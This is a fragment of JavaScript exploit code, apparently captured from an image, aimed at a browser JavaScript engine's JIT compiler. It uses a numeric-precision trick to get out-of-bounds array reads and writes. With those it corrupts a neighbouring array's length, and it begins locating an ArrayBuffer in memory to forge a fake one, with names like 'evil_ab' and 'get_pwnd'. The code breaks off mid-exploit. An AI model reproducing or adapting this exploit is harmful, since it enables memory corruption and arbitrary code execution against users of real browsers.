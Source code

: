```javascript
let hexprintablei = (i) => {
  return (i).toString(16).padStart(16,"0");
}

let assert = (l,r,m) => {
  if (l != r) {
    log(hexprintablei(l) + " != " +  hexprintablei(r));
    log(m);
    throw "failed assert";
  }
  return true;
}

let NEW_LENGTHSMI = 0x64;
let NEW_LENGTH64  = 0x0000006400000000;

let AB_LENGTH = 0x100;

let MARK1SMI = 0x13;
let MARK2SMI = 0x37;
let MARK1 = 0x0000001300000000;
let MARK2 = 0x0000003700000000;

let ARRAYBUFFER_SIZE = 0x40;
let PTR_SIZE = 8;

let opt_me = (x) => {
  let MAGIC = 1.1; // don't move out of scope
  let arr = new Array(MAGIC,MAGIC,MAGIC);
  arr2 = Array.of(1.2); // allows to put the JSArray *before* the fixed arrays
  evil_ab = new ArrayBuffer(AB_LENGTH);
  packed_elements_array = Array.of(MARK1SMI,Math,MARK2SMI, get_pwnd);
  let y = (x == "foo") ? 4503599627370495 : 4503599627370493;
  let z = 2 + y + y ; // 2 + 4503599627370495 * 2 = 9007199254740992
  z = z + 1 + 1 + 1;
  z = z - (4503599627370495*2); 

  // may trigger the OOB R/W
  
  let leak = arr[z];
  arr[z] = i2f(NEW_LENGTH64); // try to corrupt arr2.length

  //  when leak == MAGIC, we are ready to exploit
  
  if (leak != MAGIC) {
    
    // [1] we should have corrupted arr2.length, we want to check it

    assert(f2i(leak), 0x0000000100000000, "bad layout for jsarray length corruption");
    assert(arr2.length, NEW_LENGTHSMI);

    log("[+] corrupted JSArray's length");

    // [2] now read evil_ab ArrayBuffer structure to prepare our fake array buffer

    let ab_len_idx = arr2.indexOf(i2f(AB_LENGTH));

    // check if the memory layout is consistent
    
    assert(ab_len_idx != -1, true, "could not find array buffer");
    assert(Number(f2i(arr2[ab_len_idx + 1])) & 1, false);
    assert(Number(f2i(arr2[ab_len_idx + 1])) > 0x10000, true);
    assert(f2i(arr2[ab_len_idx + 2]), 2);
```